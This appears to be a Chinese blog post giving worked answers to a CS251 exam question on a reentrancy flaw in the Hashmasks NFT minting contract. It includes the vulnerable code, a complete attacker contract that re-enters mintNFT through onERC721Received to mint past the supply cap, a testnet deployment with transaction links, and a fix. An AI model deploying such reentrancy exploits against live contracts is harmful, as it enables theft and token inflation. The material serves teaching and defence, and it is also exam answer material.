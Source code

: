 ```yaml
---
title: "CS251 - final 2021 - 问题 4"
description: "CS251 - final 2021 - 问题 4"
tags: 
- 区块链
top: 157
date: 15/03/2022, 10:55:48
author: qiwihui
update: 21/03/2022, 11:16:33
categories: 
---
```


**问题4. [16 分]: Hashmasks 重入缺陷**

在第8课和第3节中，我们讨论了 solidity 重入缺陷。在这个问题中，我们将看一个有趣的现实世界的例子。考虑下面16384个NFT中使用的 solidity 代码片段。通过调用此NFT合约上的 `mintNFT()` 函数，用户一次最多可以铸造20个NFT。您可以假设所有内部变量都由构造函数正确初始化（未显示）。

<!--more-->

```solidity
  function mintNFT(uint256 numberOfNfts) public payable {
    require(totalSupply() < 16384, 'Sale has already ended');
    require(numberOfNfts > 0, 'numberOfNfts cannot be 0');
    require(numberOfNfts <= 20, 'You may not buy more than 20 NFTs at once');
    require(totalSupply().add(numberOfNfts) <= 16384, 'Exceeds NFT supply');
    require(getNFTPrice().mul(numberOfNfts) == msg.value, 'Value sent is not correct');
    for (uint256 i = 0; i < numberOfNfts; i++) {
      uint256 mintIndex = totalSupply(); // get number of NFTs issued so far
      _safeMint(msg.sender, mintIndex); // mint the next one
    }
  }

  function _safeMint(address to, uint256 tokenId) internal virtual override {
    // Mint one NFT and assign it to address(to).
    require(!_exists(tokenId), 'ERC721: token already minted');
    _data = _mint(to, tokenId); // mint NFT and assign it to address to
    _totalSupply++; // increment totalSupply() by one
    if (to.isContract()) {
      // Confirm that NFT was recorded properly by calling
      // the function onERC721Received() at address(to).
      // The arguments to the function are not important here.
      // If onERC721Received is implemented correctly at address(to) then
      // the function returns _ERC721_RECEIVED if all is well.
      bytes4 memory retval = IERC721Receiver(to).onERC721Received(to, address(0), tokenId, _data);
      require(retval == _ERC721_RECEIVED, 'NFT Rejected by receiver');
    }
  }
```

让我们证明 `_safeMint` 根本不安全（尽管它的名字是安全）。

**A)**    假设已经铸造了16370个NFT，那么 totalSupply()=16370。请解释恶意合约如何导致超过16384个NFT被伪造。攻击者最多可以造出多少个NFT？

提示：如果在调用地址 `onERC721Received` 是恶意的，结果会怎样？请仔细检查铸币回路，并考虑重入缺陷。

**答：** 在已经 mint 16370 个NFT基础上，调用 mingNFT 可传入的最大 numberOfNfts 为 14 可以通过 mintNFT 开始五行的限制，当上述合约在调用地址 `to` 上的 `onERC721Received` 函数时，这个函数可以再次调用上述 mingNFT 函数，此时，在原来已经 mint 一个的基础上，传入的 numberOfNfts 为 13 个可以通过 mintNFT 的限制，然后重复同样的过程，依次可以 mint 12， 11 直到 1，最后在函数内部，已经没有其他限制，故这些数量的 NFT 均可以被 mint，所以理论上总共可以 mint 的数量为 $14+13+\dots+2+1=105$。

**B)**    假设现在总供给的价值是16370，请写出实施对（a）部分进行攻击的恶意Solidity合约代码。

**答：** 

```solidity
contract Attacker is IERC721Receiver {
  Hashmasks hashmasks;

  constructor(address _hashmasksAddress) {
    hashmasks = Hashmasks(_hashmasksAddress);
  }

  function attack() public payable{
    {
      uint256 num = hashmasks.balanceOf(address(this));
      // console.log("num: ", num);
      if (num < 14) {
        // 16384 - 16370 = 14
        hashmasks.mintNFT{value: 14-num}(14 - num);
      }
    }
  }

  function onERC721Received(
    address _from,
    address _to,
    uint256 _tokenId,
    bytes memory _data
  ) external returns (bytes4) {
    attack();
    return msg.sig;
  }
}
```

其中 `attack` 设置为 *`payable` 是因为需要通过攻击合约调用 mintNFT 函数，需要发送一定数量的以太，可以选择在部署后先发送一定数量的以太到攻击者合约中，也可以将 `attack` 设置成 `payable`，在攻击的交易中发送以太到*

实验：在 Rinkeby 上部署，攻击者合约地址为 0xf1eb80Bb66A70E44d42B3ceC0bC18Ec28B5F2Ea8，实际攻击的交易：[https://rinkeby.etherscan.io/tx/0xb90496fd8789c3d1800df1bd3a571d019fb6158cbd521a9d05e57ad62460d15f](https://rinkeby.etherscan.io/tx/0xb90496fd8789c3d1800df1bd3a571d019fb6158cbd521a9d05e57ad62460d15f)，这个部署的合约中，NFT的价格设置为 1 wei，所以理论上只要发送 105 wei 到攻击这合约中，但是保险起见，发送了150wei，最后也可以看到攻击这合约中还剩下 45 wei。

**C)**    你会在前一页的代码中添加或更改哪一行Solidity来防止你的攻击?请注意，单个交易不应该铸造超过20个NFT。

**答：** 可以将 `_safeMint` 方法中， `_totalSupply++;` 这一行放到验证 NFT 的调用之后：

```solidity
  function _safeMint(address to, uint256 tokenId) internal virtual override {
    // Mint one NFT and assign it to address(to).
    require(!_exists(tokenId), 'ERC721: token already minted');
    _data = _mint(to, tokenId); // mint NFT and assign it to address to
    
    if (to.isContract()) {
      // Confirm that NFT was recorded properly by calling
      // the function onERC721Received() at address(to).
      // The arguments to the function are not important here.
      // If onERC721Received is implemented correctly at address(to) then
      // the function returns _ERC721_RECEIVED if all is well.
      bytes4 memory retval = IERC721Receiver(to).onERC721Received(to, address(0), tokenId, _data);
      require(retval == _ERC721_RECEIVED, 'NFT Rejected by receiver');
    }
	_totalSupply++; // increment totalSupply() by one
  }
```

这样，当合约被重入攻击时，由于 `_totalSupply` 还没有增加，因此在第二次进入 `mintNFT` 函数时 `mintIndex` 的值是第一次 mint 的值，会导致触发 `'ERC721: token already minted'` 这个错误，有效保证合约安全。

```solidity
    for (uint256 i = 0; i < numberOfNfts; i++) {
      uint256 mintIndex = totalSupply(); // get number of NFTs issued so far
      _safeMint(msg.sender, mintIndex); // mint the next one
    }
```

验证交易： https://rinkeby.etherscan.io/tx/0xa5f70a226c5fd64132eee800f8902ddb9b4ff562ff7f37820d11746fbde52acb

感谢 discord **yyczz#5837** 对于这个问题的指导。

### Comments

